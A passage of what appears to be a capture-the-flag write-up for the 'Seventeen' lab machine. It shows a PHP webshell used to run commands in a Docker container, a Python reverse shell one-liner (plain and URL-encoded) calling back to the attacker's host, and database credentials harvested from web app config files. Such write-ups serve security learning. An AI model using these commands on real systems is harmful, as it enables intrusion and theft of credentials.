 ```
Service Info: Host: 172.17.0.4; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

this means we are likely getting RCE on a docker container so the options we have for reverse shells are more narrow.

we see python is in the container
http://mastermailer.seventeen.htb:8000/oldmanagement/files/31234/simple.php?gg=which%20python

so we will try a python reverse shell
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.73",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
we url encode and execute via our webshell
http://mastermailer.seventeen.htb:8000/oldmanagement/files/31234/simple.php?gg=python%20%2Dc%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%2210%2E10%2E14%2E73%22%2C443%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bimport%20pty%3B%20pty%2Espawn%28%22sh%22%29%27

this one connects back and gives us a shell

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529184017.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529184017.png){:.glightbox}

## User
We begin with just some basic manual enumeration. Let's look through the config files of all available web applications to see if we can find any further credentials.

in `/var/www/html/employeemanagementsystem/process/dbh.php` we find our first credentials

```php
<?php

$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

...SNIP
```

the next in `/var/www/html/mastermailer/config/config.inc.php`
```php
...SNIP

$config['db_dsnw'] = 'mysql://mysqluser:mysqlpassword@127.0.0.1/roundcubedb';

...SNIP
```

mysqluser:mysqlpassword

and again in  `/var/www/html/oldmanagement/admin/conn.php`
```php
...SNIP

$conn = mysqli_connect("127.0.0.1", "mysqluser", "mysqlpassword", "db_sfms");

...SNIP
```
